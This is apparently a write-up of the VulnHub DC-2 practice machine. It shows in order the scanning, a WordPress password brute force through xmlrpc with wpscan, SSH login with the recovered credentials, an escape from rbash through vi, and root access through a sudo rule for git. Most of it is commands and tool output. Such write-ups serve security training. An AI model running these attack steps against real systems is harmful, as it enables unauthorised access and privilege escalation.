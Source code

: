 ```yaml
---
layout: post
author: H4
---
```


# PG VULNHUB DC-2
[Details](https://www.vulnhub.com/entry/dc-2,311/)
## enumeration
Performing a simple `nmap` scan to identify the attack surface.

### nmap
```bash
nmap -Pn -p80,7744 -sV  192.168.239.194 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:31 EDT
Nmap scan report for dc-2 (192.168.239.194)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

### gobuster
Using `gobuster` to look for hidden files on the identified web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 10 -x php -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/08 03:59:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/xmlrpc.php           (Status: 405) [Size: 42]                  
/wp-login.php         (Status: 200) [Size: 2165]                
/readme.html          (Status: 200) [Size: 7413]                
/license.txt          (Status: 200) [Size: 19935]               
/wp-config.php        (Status: 200) [Size: 0]                   
/wp-trackback.php     (Status: 200) [Size: 135]                 
/wp-settings.php      (Status: 500) [Size: 0]                   
/wp-cron.php          (Status: 200) [Size: 0]                   
/wp-blog-header.php   (Status: 200) [Size: 0]                   
/wp-links-opml.php    (Status: 200) [Size: 215]                 
/wp-load.php          (Status: 200) [Size: 0]                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
                                                                                            
===============================================================
2022/05/08 04:01:42 Finished
===============================================================
```

It seems that `wordpress` is installed on the web server.  
`wpscan` reveals that `wordpress` version `4.7.10` is used an outdated.

---

## exploitation
### wordpress
Looking for exploits against `wordpress 4.7.10`

```bash
searchsploit wordpress Core 4.7
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 4.7.0/4.7.1 - Content Injection                                                                                                | linux/webapps/41223.py
WordPress Core 4.7.0/4.7.1 - Content Injection (Ruby)                                                                                         | linux/webapps/41224.rb
WordPress Core < 4.7.1 - Username Enumeration                                                                                                 | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                          | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                              | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                       | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                       | php/dos/47800.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts ` looks promising  
- `http://dc-2/?static=1&order=asc` reveals the "secret" content  
Site gives the hint that `cewl` might be a good idea. `cewl` generates custom wordlists it scrapes from the website you provide.  

```bash
cewl -d 2 -w ourWordlist.txt "http://dc-2/?static=1&order=asc"
```

Then we are using `wpscan` to identify accounts on the `wordpress` site and perform a brute force attack with the generated wordlist.  
We are using the xmlrpc endpoint here instead of the "normal" login page, because in this way we can perform multiple login attemps with one xml-rpc call.

```bash
wpscan --url http://dc-2/ --password-attack xmlrpc -P /home/void/Documents/web200/playgrounds/dc2/ourWordlist.txt                                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.239.194]
[+] Started: Sun May  8 04:16:03 2022
...
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing 
[SUCCESS] - tom / parturient                                                                                                                                                    
Trying admin / Powered Time: 00:01:23 <=====================================================                                                > (780 / 1458) 53.49%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
...
```
Yay! we got two valid credentials for the `wordpress` instance.  
Unfortunately both accounts cannot be used to upload a `plugin` or escalate to a `rce`.  

### ssh
- on port 7744 there is a `SSH` service
- logging in with `tom:parturient` works

```bash
ssh tom@dc-2 -p 7744                                                                                                                                                  
The authenticity of host '[dc-2]:7744 ([192.168.239.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

`rbash` is in place and the program `cat` cannot be found.  
`rbash` is a restricted shell which is used to 'jail' a user, so he cannot execute certain commands and act as a normal user.

### escaping rbash
```bash
tom@DC-2: vi
:set shell=/bin/bash
:shell
tom@DC-2:~$ cat local.txt
bash: cat: command not found
```
Yay! We escaped `rbash` but cat is still not available.

### cat alternative to get the first flag
```bash
tom@DC-2:~$ less local.txt
```
-> `9586a7b76b2a8**********27dc5606c`

### lpe
Try to identify if the user `tom` is able to execute commands as a super user.

```bash
echo $PATH
/home/tom/usr/bin
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:/var/www/html$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```

As `tom` is not allowed to do so, we are switching to the other user we know and check if this one is able to perform commands as a super user.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Checking [gtfobins](https://gtfobins.github.io/) to identify how we can exploit `git` to gain root access

```
sudo git -p help config
...
!/bin/sh
# cd /root
# ls
final-flag.txt  proof.txt
# less proof.txt
6a95123938cbf5b**********c984587
```
-> `6a95123938cbf5b**********c984587`  
  
Pwned! <@:-)
